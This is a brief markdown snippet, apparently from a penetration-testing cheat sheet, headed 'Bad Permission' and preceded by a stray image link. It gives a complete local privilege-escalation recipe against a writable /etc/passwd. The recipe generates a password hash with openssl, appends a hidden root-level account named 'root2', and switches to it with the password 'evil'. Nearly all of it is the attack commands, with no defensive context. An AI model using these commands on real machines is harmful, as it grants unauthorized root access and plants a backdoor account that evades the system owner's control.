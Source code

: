 ### Bad Permission
writable /etc/passwd

```bash
openssl passwd evil

echo 'root2:1DrTbIWRDbpz.:0:0:root:/root:/bin/bash' >> /etc/passwd

su root2 #pass: evil
```
